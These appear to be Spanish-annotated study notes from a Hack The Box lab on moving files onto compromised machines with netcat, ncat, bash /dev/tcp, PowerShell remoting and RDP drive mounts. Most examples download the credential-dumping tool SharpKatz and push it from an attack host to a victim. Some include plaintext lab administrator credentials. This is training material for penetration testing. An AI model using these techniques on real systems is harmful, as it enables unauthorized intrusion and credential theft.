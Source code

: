 
## Netcat

### NetCat - Compromised Machine - Listening on Port 8000

```shell-session
 nc -l -p 8000 > SharpKatz.exe
```

### Ncat - Compromised Machine - Listening on Port 8000

```shell-session
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

### Netcat - Attack Host - Sending File to Compromised machine

```shell-session
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe

# Example using Original Netcat
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

```shell-session
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
# Example using Ncat
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

### Attack Host - Sending File as Input to Netcat

```shell-session
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

### Compromised Machine Connect to Netcat to Receive the File

```shell-session
nc 192.168.49.128 443 > SharpKatz.exe
```

Hagamos lo mismo con Ncat:

### Attack Host - Sending File as Input to Ncat

```shell-session
b0ySie7e@htb[/htb]$ # Example using Ncat
b0ySie7e@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

### Compromised Machine Connect to Ncat to Receive the File

```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

Si no tenemos Netcat o Ncat en nuestra máquina comprometida, Bash admite operaciones de lectura/escritura en un archivo de pseudo-dispositivo [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html) .

Escribir en este archivo en particular hace que Bash abra una conexión TCP a `host:port`, y esta función puede usarse para transferencias de archivos.

### NetCat - Sending File as Input to Netcat

```shell-session
b0ySie7e@htb[/htb]$ # Example using Original Netcat
b0ySie7e@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

### Ncat - Sending File as Input to Netcat

```shell-session
b0ySie7e@htb[/htb]$ # Example using Ncat
b0ySie7e@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

```shell-session
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

## PowerShell Session File Transfer

### From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.

```powershell-session
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```

```powershell-session
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

### Create a PowerShell Remoting Session to DATABASE01

```powershell-session
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

### Copy samplefile.txt from our Localhost to the DATABASE01 Session

```powershell-session
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

### Copy DATABASE.txt from DATABASE01 Session to our Localhost


```powershell-session
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

## RDP

### Mounting a Linux Folder Using rdesktop

```shell-session
b0ySie7e@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

### Mounting a Linux Folder Using xfreerdp


```shell-session
b0ySie7e@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```


Para acceder al directorio, podemos conectarnos a `\\tsclient\`, lo que nos permitirá transferir archivos hacia y desde la sesión RDP.

